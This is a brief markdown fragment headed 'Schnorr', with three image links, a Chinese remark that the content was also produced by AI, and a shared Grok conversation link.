

## Schnorr

也是ai梭出来的


共享连接：https://grok.com/share/c2hhcmQtNA_0a2fcce4-b3fd-4151-bd2c-0280250de3bf


